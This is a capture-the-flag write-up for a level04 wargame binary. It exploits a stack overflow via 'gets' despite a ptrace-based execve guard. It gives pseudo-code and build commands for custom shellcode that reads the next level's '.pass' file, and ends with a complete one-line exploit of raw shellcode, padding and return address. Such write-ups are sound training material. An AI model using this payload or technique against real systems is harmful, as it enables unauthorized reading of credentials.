 # Buffer Overflow under execve protection

see source.c

## Analysis

The program is using 'gets' on a buffer allocated on the stack, so we can do a easy buffer overflow + modify eip to change wherever we want.
Problem: the buffer will only be modified in the child process and the parent is checking for execve syscall (ptrace /w PTRACE_PEEKUSER). We tried to bypass this protection by doing multiple things like killing the parent (but the program is using prctl on the child so the child terminate instantly after the parent death), or jump on another fork hoping for better result (Didn't manage to get something). The first payload with execve on gdb/strace were working easily but that was because we we're tracing the program so the executable couldn't did it at the same moment.

## Payload

Finally, after hours of trying, we manage to write our payload in nasm that isn't calling execve at all, pseudo-code:
```
fd =open("/home/users/level05/.pass", O_RDONLY);
ret = read(fd, buffer, 41);
write(1, buffer, ret);
exit();
```

()[http://faculty.nps.edu/cseagle/assembly/sys_call.html]
The code of the payload is available in resources/payload.s and was compiling like this:
```
nasm -felf32 payload.s && ld -m elf_i386 payload.o -o a.out
```
Then we just xxd and get what we needed, and do a little payload with a jump at the end (at the address of eip, that jump on the payload):

```
(python -c "print('\x31\xc9\xf7\xe1\x6a\x05\x58\x51\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe3\xcd\x80\x50\x5b\x6a\x29\x5a\x8d\x0c\x24\x42\xcd\x80\x50\x5a\x6a\x01\x5b\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80' + 'A' * 86 + '\x60\xd6\xff\xff')") | /home/users/level04/level04 
```
